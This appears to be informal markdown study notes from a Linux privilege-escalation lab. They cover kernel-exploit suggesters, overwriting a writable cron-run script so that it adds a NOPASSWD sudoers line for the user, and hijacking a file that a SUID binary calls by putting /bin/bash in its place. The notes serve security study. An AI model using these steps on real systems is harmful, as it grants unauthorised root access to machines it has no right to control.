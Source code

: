 1. identify the kernal version
2. downloading , compiling and transferring kernal exploits into the target system.
3. GitHub: https://github.com/mzet-/linux-exploit-suggester
4. Linpeas.sh

<h2>Cron tabs Misconfiguration</h2>
in linux terminal of target machine
```
crontab -l
find / -name messageorsuspeciousfile
ls -l thepathfrompreviouscommand

` This means there is some script/binary which is copying this file from the student **home** directory to **/tmp** directory. Search for that script. If this script is doing a simple copy operation, it must have the source destination of the file in it. Try to locate that by using the grep command. On trying on different directories one by one (i.e. /, etc, /opt) and on /usr directory, a match has been found.`


grep -rnw /usr -r "/home/student/suspeciousfileloation"
grep -nri "/tmp/message" /usr

\\ ths will lead to a .sh some file
```

the misconfiguration that a low level user in victim machine can edit crontab activity causes this.

```
ls -l /usr/local/share/copy.sh
cat /usr/local/share/copy.sh
```

```
vim /usr/local/share/copy.sh
vi /usr/local/share/copy.sh
nano /usr/local/share/copy.sh  //they will not work
```



```
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/location of .sh file
sudo -l
sudo su
```

we are using the crontab file and edit it into execute our code.

<h2>Exploiting SUID Binary</h2>
find files with SUID Binary enabled
```
find / -perm -4000 -type f 2>/dev/null
```
Observe that the welcome binary has suid bit set (or on). This means that this binary and its child processes will run with root privileges.
```
file welcome
```

```
strings welcome
```
![[Pasted image 20250916120855.png]]
```
rm greetings
echo "/bin/bash" > greetings
```

